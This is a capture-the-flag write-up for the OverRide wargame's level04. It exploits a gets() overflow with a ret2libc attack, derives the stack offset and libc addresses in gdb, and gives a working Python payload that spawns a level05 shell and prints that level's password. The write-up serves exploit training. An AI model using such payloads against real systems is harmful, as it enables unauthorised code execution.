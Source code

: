 # level04

## Header

```bash
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level04/level04
```

<hr>

## Solution

From the [disassembled binary](./source.s) and the [source](./source.c) code we can see that program uses vulnerable `gets` call. This means we can perform `buffer overflow` to overwrite return address of `main` function.

<details>
  <summary> A few words about macroses </summary>

  To understand this part of disassembled code,
  ```asm
      ...
      mov    0x1c(%esp),%eax
      mov    %eax,0xa0(%esp)
      mov    0xa0(%esp),%eax
      and    $0x7f,%eax
      test   %eax,%eax
      je     0x80487ac <main+228>
      ; res & 7f == 0

      mov    0x1c(%esp),%eax
      mov    %eax,0xa4(%esp)
      mov    0xa4(%esp),%eax
      and    $0x7f,%eax
      add    $0x1,%eax
      sar    %al                  
      test   %al,%al
      jle    0x80487ba <main+242>
      ; ((res & 7f) + 1 >> 1) > 0
  ```

  we need to look at this header on the given system:
  ```bash
  $ find / -name 'waitstatus.h' 2>/dev/null
  /rofs/usr/include/x86_64-linux-gnu/bits/waitstatus.h
  ```

  Open `waitstatus.h` with any tool:
  ```c
  /* If WIFSIGNALED(STATUS), the terminating signal.  */
  #define __WTERMSIG(status)      ((status) & 0x7f)
  ...
  /* Nonzero if STATUS indicates normal termination.  */
  #define __WIFEXITED(status)     (__WTERMSIG(status) == 0)
  ...
  /* Nonzero if STATUS indicates termination by a signal.  */
  #define __WIFSIGNALED(status) \
    (((signed char) (((status) & 0x7f) + 1) >> 1) > 0)
  ```

From this file we can understand that macro `WIFEXITED` and `WIFSIGNALED` were used.

</details>


Let's look at this asm code thoroughly:
```c
main:
    push   %ebp
    mov    %esp,%ebp
    push   %edi
    push   %ebx
    and    $0xfffffff0,%esp     ; do nothing as the stack already aligned
    sub    $0xb0,%esp           ; 176 bytes allocated on stack

    ...
    lea    0x20(%esp),%ebx
```

Here is the proof that the stack already aligned:
```
(gdb) disas main
  ...
  0x080486cd <+5>:     and    $0xfffffff0,%esp
(gdb) b *0x080486cd
...
(gdb) x $esp
0xffffd700:     0xf7fceff4
(gdb) ni
0x080486d0 in main ()
(gdb) x $esp
0xffffd700:     0xf7fceff4
```

The stack looks like this:
```
EBP+0x4,  ESP+0xbc, return address
EBP+0x0,  ESP+0xb8, saved EBP
EBP-0x4,  ESP+0xb4, saved EDI
EBP-0x8,  ESP+0xb0, saved EBX
EBP-0x0c, ESP+0xac, pid
EBP-0x10, ESP+0xa8, ptrace' return
EBP-0x14, ESP+0xa4, s2
EBP-0x18, ESP+0xa0, s1
...
EBP-0x98, ESP+0x20, buf[32]
EBP-0x9c, ESP+0x1c, status
...
EBP-0xb8, ESP+0x0,  end of frame
```

The buffer starts at `ESP+0x20` and the top of the stack at `EBP-0xb8` or `ESP`. <br>
To overwrite return address we need to pass 0x98 + 0x4 bytes for EBP + 0x4 bytes address <br>
= 156 bytes of padding and 4 bytes of return address.

Let's use `ret2libc` attack to exploit the binary.

Finding out the address of `system` call and `/bin/sh` string:
```
(gdb) b main
Breakpoint 1 at 0x80486cd
(gdb) r
Starting program: /home/users/level04/level04
Breakpoint 1, 0x080486cd in main ()
(gdb) p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
(gdb) info proc map
  ...
  Start Addr   End Addr       Size     Offset objfile
  ...
  0xf7e2c000 0xf7fcc000   0x1a0000        0x0 /lib32/libc-2.15.so
  ...
(gdb) find 0xf7e2c000, 0xf7fcc000, "/bin/sh"
0xf7f897ec
1 pattern found.
(gdb) x/s 0xf7f897ec
0xf7f897ec:      "/bin/sh"
```

Now, we have all the data to exploit:
```bash
level04@OverRide:~$ python -c 'print "X" * 156 + "\xf7\xe6\xae\xd0"[::-1] + "XXXX" + "\xf7\xf8\x97\xec"[::-1]' > /tmp/payload
level04@OverRide:~$ cat /tmp/payload - | ./level04 
Give me some shellcode, k
whoami
level05
cd ../level05
ls -la
total 17
dr-xr-x---+ 1 level05 level05   80 Sep 13  2016 .
dr-x--x--x  1 root    root     260 Oct  2  2016 ..
-rw-r--r--  1 level05 level05  220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root    root       7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 level05 level05 3533 Sep 10  2016 .bashrc
-rwsr-s---+ 1 level06 users   5176 Sep 10  2016 level05
-rw-r--r--+ 1 level05 level05   41 Oct 19  2016 .pass
-rw-r--r--  1 level05 level05  675 Sep 10  2016 .profile
cat .pass
3v8QLcN5SAhPaZZfEasfmXdwyR59ktDEMAwHF3aN
```

## References
- [ret2libc](https://wiki.bi0s.in/pwning/return2libc/return-to-libc/)
- [man wait](https://man7.org/linux/man-pages/man2/wait.2.html)
- [man prctl](https://man7.org/linux/man-pages/man2/prctl.2.html)
- [man ptrace](https://man7.org/linux/man-pages/man2/ptrace.2.html)
